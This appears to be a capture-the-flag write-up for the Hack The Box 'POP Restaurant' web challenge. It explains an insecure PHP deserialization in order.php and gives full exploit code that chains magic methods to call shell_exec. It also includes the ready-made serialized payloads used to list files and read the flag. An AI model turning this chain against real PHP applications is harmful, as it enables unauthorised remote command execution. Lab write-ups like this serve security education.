

# POP restaurant

- **Challenge**: [https://app.hackthebox.com/challenges/POP%2520Restaurant](https://app.hackthebox.com/challenges/POP%2520Restaurant)
- **Category**: Web
- **Level**: Easy
- **Author**: underthestars

There is a **Insecure Object Deserialization** at `order.php`.

```php
<?php

error_reporting(0);
require_once 'Helpers/ArrayHelpers.php';
require_once 'Helpers/CheckAuthentication.php';
require_once 'Models/PizzaModel.php';
require_once 'Models/IceCreamModel.php';
require_once 'Models/SpaghettiModel.php';
require_once 'Models/DatabaseModel.php';

isAuthenticated();
$username = $_SESSION['username'];
$id = $_SESSION['id'];

$db = new Database();

$order = unserialize(base64_decode($_POST['data']));

$foodName = get_class($order);

$result = $db->Order($id,$foodName);
if ($result) {
    header("Location: index.php");
    die();
} else {
    $errorInfo = $stmt->errorInfo();
    die("Error executing query: " . $errorInfo[2]);

```

The `order.php` includes the below files:

```php
<?php

namespace Helpers{
	use \ArrayIterator;
	class ArrayHelpers extends ArrayIterator {
		public $callback;

		public function current() {
			$value = parent::current();
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}

class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;

    public function __get($tomato)
    {
        ($this->sauce)();
    }
}

class Pizza {
	public $price;
	public $cheese;
	public $size;

	public function __destruct() {
		echo $this->size->what;
	}
}

class IceCream {
	public $flavors;
	public $topping;

	public function __invoke() {
		foreach ($this->flavors as $flavor) {
			echo $flavor;
		}
	}
}

?>

```

It is possible to perform a **pop (property-oriented programmain) chain** to execute arbitrary command.

- **__destruct** @ Pizza
- **__get** @ Spaghetti
- **__invoke** @ IceCream
- **call_user_func** @ Helpers\ArrayHelper

```text

POP chain:

Pizza {
	$size=Spaghetti {
		$sauce=IceCream {
			$flavors=Helpers\ArrayHelper {
				$callback = 'shell_exec'
				current = '<cmd>'
			}
		}
	}

}

```

## Exploitation

`exploit.php`
```php

<?php

require_once 'Helpers/ArrayHelpers.php';
require_once 'Helpers/CheckAuthentication.php';
require_once 'Models/PizzaModel.php';
require_once 'Models/IceCreamModel.php';
require_once 'Models/SpaghettiModel.php';
require_once 'Models/DatabaseModel.php';

$helper=new Helpers\ArrayHelpers(array(0=>'ls -lah ./Static/Images/ > ./Static/Images/lss.txt'));

$helper->callback='shell_exec';

$helper->current;

$ice=new IceCream();

$ice->flavors=$helper;

$spaghetti=new Spaghetti();

$spaghetti->sauce=$ice;

$pizza=new Pizza();

$pizza->size=$spaghetti;

print serialize($pizza) . "\n\n";

print base64_encode(serialize($pizza)) . "\n\n";

?>

```

Crafting the payload in the local docker container.

```bash
$ sudo ./build_docker.sh

$ sudo docker container cp ./exploit.php c7c5b45c3ba2:/var/www/html
Successfully copied 2.56kB to f134e4c806fe:/var/www/html

$ sudo docker exec -it c7c5b45c3ba2 bash
```

```bash
www-data@c7c5b45c3ba2:~/html$ ls
Helpers  Models  Static  exploit.php  index.php  login.php  order.php  register.php

www-data@c7c5b45c3ba2:~/html$ php exploit.php
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:1:{i:0;s:49:"ls -lah ./Static/Images/ > ./Static/Images/ls.txt";}i:2;a:1:{s:8:"callback";s:10:"shell_exec";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}

Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjA6IkhlbHBlcnNcQXJyYXlIZWxwZXJzIjo0OntpOjA7aTowO2k6MTthOjE6e2k6MDtzOjQ5OiJscyAtbGFoIC4vU3RhdGljL0ltYWdlcy8gPiAuL1N0YXRpYy9JbWFnZXMvbHMudHh0Ijt9aToyO2E6MTp7czo4OiJjYWxsYmFjayI7czoxMDoic2hlbGxfZXhlYyI7fWk6MztOO31zOjc6InRvcHBpbmciO047fXM6Nzoibm9vZGxlcyI7TjtzOjc6InBvcnRpb24iO047fX0=

ls -lah ./Static/Images/ > ./Static/Images/ls.txt
```




crafting the payload to execute a `cat flag.txt`:

```php

$helper=new Helpers\ArrayHelpers(array(0=>'cat /*_flag.txt > ./Static/Images/flag.txt'));

```

```bash
www-data@c7c5b45c3ba2:~/html$ php exploit.php 
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:1:{i:0;s:42:"cat /*_flag.txt > ./Static/Images/flag.txt";}i:2;a:1:{s:8:"callback";s:10:"shell_exec";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}

Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjA6IkhlbHBlcnNcQXJyYXlIZWxwZXJzIjo0OntpOjA7aTowO2k6MTthOjE6e2k6MDtzOjQyOiJjYXQgLypfZmxhZy50eHQgPiAuL1N0YXRpYy9JbWFnZXMvZmxhZy50eHQiO31pOjI7YToxOntzOjg6ImNhbGxiYWNrIjtzOjEwOiJzaGVsbF9leGVjIjt9aTozO047fXM6NzoidG9wcGluZyI7Tjt9czo3OiJub29kbGVzIjtOO3M6NzoicG9ydGlvbiI7Tjt9fQ==

cat /*_flag.txt > ./Static/Images/flag.txt
```


---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
